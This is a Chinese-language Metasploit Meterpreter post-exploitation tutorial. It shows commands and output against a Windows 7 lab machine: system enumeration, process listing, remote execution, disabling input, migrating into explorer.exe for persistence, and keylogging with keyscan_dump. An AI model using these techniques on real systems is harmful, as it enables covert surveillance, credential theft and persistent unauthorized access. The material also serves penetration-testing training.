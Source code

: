 # 后渗透阶段

> 查看系统版本信息
meterpreter > sysinfo
Computer        : IE10WIN7
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 3
Meterpreter     : x86/windows

> 查看系统空闲时间
meterpreter > idletime
User has been idle for: 5 mins 39 secs

> 获取UUID
meterpreter > uuid
[+] UUID: 39ee88007c1008bd/x86=1/windows=1/2019-04-18T06:19:08Z

> 获取进程ID
meterpreter > getpid
Current pid: 3780

> 展示进程信息
meterpreter > ps

Process List
============

 PID   PPID  Name                    Arch  Session  User             Path
 ---   ----  ----                    ----  -------  ----             ----
 0     0     [System Process]                                        
 4     0     System                                                  
 120   460   wlms.exe                                                
 276   4     smss.exe                                                
 340   460   vmtoolsd.exe                                            
 356   348   csrss.exe                                               
 408   348   wininit.exe                                             
 420   400   csrss.exe                                               
 460   408   services.exe                                            
 476   408   lsass.exe                                               
 484   408   lsm.exe                                                 
 552   400   winlogon.exe                                            
 648   460   svchost.exe                                             
 752   460   vmacthlp.exe                                            
 768   460   cygrunsrv.exe                                           
 784   460   svchost.exe                                             
 836   460   svchost.exe                                             
 952   460   svchost.exe                                             
 992   460   svchost.exe                                             
 1016  460   svchost.exe                                             
 1252  460   svchost.exe                                             
 1284  460   VGAuthService.exe                                       
 1364  460   spoolsv.exe                                             
 1400  460   svchost.exe                                             
 1424  460   taskhost.exe            x86   1        IE10WIN7\IEUser  C:\Windows\system32\taskhost.exe
 1580  460   vmicsvc.exe                                             
 1600  460   vmicsvc.exe                                             
 1636  460   vmicsvc.exe                                             
 1660  460   vmicsvc.exe                                             
 1692  460   vmicsvc.exe                                             
 1720  460   kisaassvr.exe                                           
 1764  460   AtHost.exe                                              
 1784  460   OfficeClickToRun.exe                                    
 1932  1720  IpcServer.exe           x86   1                         
 2028  460   svchost.exe                                             
 2080  1764  UploadExe.exe                                           
 2444  356   conhost.exe                                             
 2480  2400  sshd.exe                                                
 2520  460   sppsvc.exe                                              
 2624  460   svchost.exe                                             
 2680  648   WmiPrvSE.exe                                            
 2916  460   dllhost.exe                                             
 2960  460   SearchIndexer.exe                                       
 2972  2404  wpscloudsvr.exe         x86   1        IE10WIN7\IEUser  C:\Users\IEUser\AppData\Local\Kingsoft\WPS Office\10.1.0.7698\office6\wpscloudsvr.exe
 2988  648   WmiPrvSE.exe                                            
 3196  460   msdtc.exe                                               
 3284  2436  GoogleCrashHandler.exe                                  
 3396  1720  AMediumManager.exe      x86   1                         
 3564  952   dwm.exe                 x86   1        IE10WIN7\IEUser  C:\Windows\system32\Dwm.exe
 3588  3556  explorer.exe            x86   1        IE10WIN7\IEUser  C:\Windows\Explorer.EXE
 3736  3588  vmtoolsd.exe            x86   1        IE10WIN7\IEUser  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 3780  3588  evilrar.exe             x86   1        IE10WIN7\IEUser  C:\Users\IEUser\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\evilrar.exe
 3788  1720  AtTray.exe              x86   1                         
 3852  1016  wuauclt.exe             x86   1        IE10WIN7\IEUser  C:\Windows\system32\wuauclt.exe
 3904  3788  kDocSecurity.exe        x86   1                         
 3920  3788  AtUsbScan.exe           x86   1                         
 4968  460   svchost.exe                                             
 5356  2972  wpscenter.exe           x86   1        IE10WIN7\IEUser  C:\Users\IEUser\AppData\Local\Kingsoft\WPS Office\10.1.0.7698\office6\wpscenter.exe

> 禁用鼠标键盘

 uictl [enable/disable] [keyboard/mouse/all]

> 在目标系统执行文件

```sh
meterpreter > execute 
Usage: execute -f file [options]

Executes a command on the remote machine.

OPTIONS:

    -H        Create the process hidden from view.
    -a <opt>  The arguments to pass to the command.
    -c        Channelized I/O (required for interaction).
    -d <opt>  The 'dummy' executable to launch when using -m.
    -f <opt>  The executable command to run.
    -h        Help menu.
    -i        Interact with the process after creating it.
    -k        Execute process on the meterpreters current desktop
    -m        Execute from memory.
    -s <opt>  Execute process in a given session as the session user
    -t        Execute process with currently impersonated thread toke
```

启动计算器和文件浏览器
meterpreter > execute -f calc.exe
Process 5404 created.

meterpreter > execute -f explorer.exe
Process 5764 created.

> Meterpreter会话移植到指定pid值进程中,以保持持久化

meterpreter > migrate 3588
[*] Migrating from 3780 to 3588...
[*] Migration completed successfully.

## 文件系统基本命令
ls -S 关键字符串 用于快速搜索文件

查看文件内容
meterpreter > cat system.ini
; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]


## 持久化和键盘窃听

```sh
meterpreter > ls -S exe
Listing: c:\Windows
===================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100777/rwxrwxrwx  497152   fil   2017-06-02 00:57:49 -0700  HelpPane.exe
100777/rwxrwxrwx  65024    fil   2010-11-20 04:16:55 -0800  bfsvc.exe
100777/rwxrwxrwx  2616320  fil   2011-02-24 21:30:54 -0800  explorer.exe
100777/rwxrwxrwx  13824    fil   2009-07-13 18:14:20 -0700  fveupdate.exe
100777/rwxrwxrwx  15360    fil   2009-07-13 18:14:21 -0700  hh.exe
100777/rwxrwxrwx  179712   fil   2015-07-09 10:42:27 -0700  notepad.exe
100777/rwxrwxrwx  398336   fil   2009-07-13 18:14:30 -0700  regedit.exe
100777/rwxrwxrwx  49680    fil   2009-06-10 14:41:17 -0700  twunk_16.exe
100777/rwxrwxrwx  31232    fil   2009-07-13 18:14:42 -0700  twunk_32.exe
100777/rwxrwxrwx  256192   fil   2009-06-10 14:42:20 -0700  winhelp.exe
100777/rwxrwxrwx  9728     fil   2009-07-13 18:14:45 -0700  winhlp32.exe
100777/rwxrwxrwx  9216     fil   2009-07-13 18:14:49 -0700  write.exe

meterpreter > execute -f notepad.exe
Process 5920 created.

> Meterpreter会话移植到指定pid值进程中,以保持持久化

meterpreter > migrate 3588
[*] Migrating from 3780 to 3588...
[*] Migration completed successfully.

## 捕获键盘输入数据
keyscan_start

## 打印键盘输入的数据
meterpreter > keyscan_dump
Dumping captured keystrokes...
<CR>
<CR>
<Shift>Hacv<^H>k me<Shift><Right Shift>?<Right Shift>?<CR>
<Shift>HHH <CR>
too naive<^S><^S>
```

参考:
[后渗透阶段](https://www.freebuf.com/sectool/154752.html)


